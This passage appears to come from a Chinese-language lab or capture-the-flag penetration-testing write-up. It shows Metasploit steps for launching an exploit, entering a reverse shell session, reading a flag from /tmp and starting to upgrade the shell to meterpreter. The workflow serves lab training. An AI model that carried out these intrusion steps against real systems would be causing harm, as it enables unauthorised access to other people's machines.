 ![再次查看exp可配置参数列表](img/再次查看exp可配置参数列表.png)

接下进行 getshell，如果攻击成功，查看打开的 reverse shell，进入会话后，发现无命令行交互提示信息，此时我们试一试 Bash 指令，可以发现我们已经打下了第一个靶标，查看其 `/tmp` 目录，成功得到 `flag1`。

```bash
# getshell
$ exlpoit -j

# 如果攻击成功，查看打开的 reverse shell
$ sessions -l

# 进入会话 1
$ sessions -i 1

# 无命令行交互提示信息，试一试 Bash 指令
$ id

# get flag-1
$ ls /tmp
```

```bash
得到flag1:flag-{bmha6cc7d3b-47d8-46dc-b9ba-1dc8a9b74dfe}
# 通过 CTRL-Z 将当前会话放到后台继续执行
```

#### 中层网络渗透:攻破靶标 2-4

首先是将已经获得的1号会话即外层主机shell升级为`meterpreter`，说是升级并且执行的命令也是`sessions -u 1`，其实是通过上传名为`post/multi/manage/shell_to_meterpreter`的payload的方式开启更多功能的会话：
